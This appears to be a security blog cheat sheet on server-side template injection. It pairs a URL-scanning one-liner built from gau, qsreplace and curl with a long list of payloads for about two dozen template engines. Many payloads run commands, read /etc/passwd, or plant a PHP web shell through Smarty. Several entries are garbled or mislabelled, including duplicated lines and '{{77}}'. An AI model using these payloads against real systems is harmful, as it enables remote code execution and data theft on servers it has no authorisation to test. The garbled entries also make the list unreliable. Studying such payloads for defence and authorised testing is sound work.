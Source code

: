 Multiple URL Test Payload:

cat urls.txt | gau -subs | grep '=' | egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)' | qsreplace "ssti{{ 7*7 }}" | while read url; do cur=$(curl -s "$url" | grep "ssti49"); echo -e "$url -> $cur"; done

1.	cat urls.txt: This command is used to read the contents of the urls.txt file, which presumably contains a list of URLs to be tested.
1.	gau -subs: This part of the command uses the gau tool with the -subs flag to discover URLs with subdomains.
2.	grep '=': This command filters out URLs that contain the equal sign '=' symbol. This is used to find URLs that might have query parameters.
3.	egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)': This part filters out URLs that have specific file extensions like JavaScript, images, text, and so on. The idea here is to avoid testing URLs that are not likely to be vulnerable.
4.	qsreplace "ssti{{7*7}}": This command uses the qsreplace tool to replace the query parameter value with the payload "ssti{{77}}". The payload "ssti{{77}}" is used to test for SSTI vulnerability by evaluating the expression 7*7 on the server side.
5.	while read url; do cur=$(curl -s $url | grep "ssti49"); echo -e "$url -> $cur"; done: This part loops through each URL from the filtered list, sends a request using curl, and then checks if the response contains "ssti49". If "ssti49" is found in the response, it means the payload was successfully injected and evaluated, indicating a potential SSTI vulnerability.

The OUTPUT shows that the URL "https://vulnerable.com/?s=ssti{{7*7}}" is vulnerable to SSTI, as the payload "ssti49" was successfully injected and evaluated.

Here are the payloads rearranged and with some more additional payloads:
Polyglot:
•	$\{\{<['"}}\\  Polyglot payload to test various template engines

1. Jinja2 (Python):
•	{{ 7*7 }}   Evaluates 7*7 to 49
•	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}   Exploits Jinja2's code execution capabilities to read /etc/passwd

2. Flask/Jinja2: Identify:
•	{{ '7' 7 }}  Identifies Flask and Jinja2
•	{% for c in [1,2,3] %}{{ (c,c,c) }}{% endfor %}  Prints c, c, c for each loop iteration

3. Tornado (Python):
•	{% import os %}{{ os.popen("ls").read() }}  Lists files in the current directory
•	{% import os %}{{ os.system('whoami') }}  Executes 'whoami' command

4. Django Template (Python):
•	{% debug %}  Prints the context and variable values
•	{% debug %}  Prints the context and variable values

5. Handlebars (JavaScript):
•	{{7*7}}  Evaluates 7*7 to 49
    
6. Express (Node.js):
•	#{7*7}  Evaluates 7*7 to 49

7. EJS (JavaScript):
•	<% require('fs').readFileSync('/etc/passwd', 'utf-8') %>   Reads /etc/passwd file

8. AngularJS (with ng-bind):
•	<div ng-bind="7*7"></div>   Evaluates 7*7 to 49

9. AngularJS:
•	{{7*7}}  Evaluates 7*7 to 49
•	{{'ssti'+7*7}}  Injects 'ssti' followed by the result of 7*7

10. Pug (formerly Jade) (JavaScript):
•	p= 7*7 Evaluates 7*7 to 49
•	#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}  Reads /etc/passwd file

11. EJS (JavaScript):
•	<%= 7*7 %>   Evaluates 7*7 to 49

12. Nunjucks (JavaScript):
•	{{ 7*7 }}  Evaluates 7*7 to 49
•	{{ 'ssti'+7*7 }}  Injects 'ssti' followed by the result of 7*7 = ssti49

13. Java:
•	${{7*7}}   Evaluates 7*7 to 49
•	${class.getClassLoader()}   Gets the class loader
•	${class.getResource("").getPath()}   Gets the path of the current resource
•	${class.getResource("../../../../../index.htm").getContent()}  Gets the content of index.htm resource
•	${T(java.lang.System).getenv()}  Gets environment variables
•	${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes().join(" ")}  Reads /etc/passwd file

14. Velocity (Java):
•	#set($a=7*7)${a}  Sets a Velocity variable 'a' to 49 and then outputs it
•	#set($str = $class.inspect("java.lang.String").type)  Gets the type of java.lang.String class
•	#set($chr = $class.inspect("java.lang.Character").type)  Gets the type of java.lang.Character class
•	#set($ex = $class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))  Executes 'whoami' command
•	$ex.waitFor()  Waits for the process to complete
•	#set($out = $ex.getInputStream())  Gets the input stream of the process
•	#foreach($i in [1..$out.available()]) $str.valueOf($chr.toChars($out.read())) #end  Reads output of process and converts to string

15. Freemarker (Java):
•	<#assign a=7*7>${a}  Assigns Freemarker variable 'a' to 49 and then outputs it
•	#set($a = 7 * 7)${a}  Sets a variable 'a' to 49 and outputs it
•	<#assign command="freemarker.template.utility.Execute"?new()>${command("cat /etc/passwd")}  Exploits Freemarker's code execution capabilities to read /etc/passwd

16. Thymeleaf (Java):
•	[[${7*7}]]  Evaluates 7*7 to 49
•	[[${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd').getInputStream().toString()}]]  Reads /etc/passwd file

17. Smarty (PHP):
•	{$smarty.version}  Prints the version of Smarty
•	{$smarty.template_object}  Prints the current template object
•	{{7*7}}  Evaluates 7*7 to 49
•	{php}echo "id";{/php}  Executes 'id' command
•	{Smarty_Internal_write_File::writeFile($SCRIPT_NAME, "<?php passthru($_GET['cmd']);?>", self::clearConfig())}  Exploits Smarty's code execution capabilities to execute commands

18. Slim (PHP):
•	{{ 7*7 }}  Evaluates 7*7 to 49
•	{{ file_get_contents('/etc/passwd') }}  Reads /etc/passwd file

19. Twig (PHP):
•	{{ constant('STDIN') }}  Prints the value of STDIN constant
•	{{ 7*7 }}   Evaluates 7*7 to 49
•	{{ dump(app) }}  Prints the entire Symfony application object

20. Blade (Laravel):
•	{{ 7*7 }}  Evaluates 7*7 to 49
•	{{ dd(config) }}  Prints the entire Laravel configuration

21. ERB (Ruby):
•	<%= 7*7 %>  Evaluates 7*7 to 49
•	<%= system("whoami") %> Executes 'whoami' command

22. ASP.NET Razor (C#):
•	@(7*7)  Evaluates 7*7 to 49
•	@(1+2) Evaluates 1+2 to 3
•	@{ // C# code }  C# code block

23. Mojolicious (Perl):
•	<% perl code %> Executes Perl code
•	<% perl code %>  Executes Perl code

24. Mustache:
•	{{{7*7}}}  Evaluates 7*7 to 49


